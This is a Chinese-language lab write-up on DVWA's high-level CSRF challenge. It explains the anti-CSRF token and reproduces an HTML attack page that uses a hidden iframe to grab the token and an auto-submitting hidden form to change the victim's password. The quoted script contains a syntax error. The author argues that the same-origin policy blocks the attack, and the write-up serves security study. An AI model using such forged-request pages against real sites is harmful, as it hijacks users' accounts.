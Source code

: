 [TOC]

# high

## 正常用户操作

用burpsuite拦截正常用户在高级别安全模式下修改密码时的报文，发现请求行多了token

![high0](image/high0.png)

阅读源码`DVWA/vulnerabilities/csrf/source/hign.php`,高安全级别的源码中引入了token来防止CSRF攻击

```php
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

所以在高安全级别下进行csrf攻击需要先获取页面的token。



## 网上解析

作者构造了一个攻击代码

```html
<script type="text/javascript">
	function attack(){
document.getElementsByName('user_token'[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
	document.getElementById("transfer").submit(); 
}
</script>

<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
<body onload="attack()">
  	<form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">
	<input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
  <input type="hidden" name="Change" value="Change">
    </form>
</body>


```

当受害者访问这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。

但是现在的浏览器不允许跨域请求。所以这个攻击实际上是不能实现的。

![high1](image/high1.png)

### 跨域请求

被攻击的页面域名A与攻击者的页面域名B的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以攻击脚本是不可能取到改密界面中的user_token。

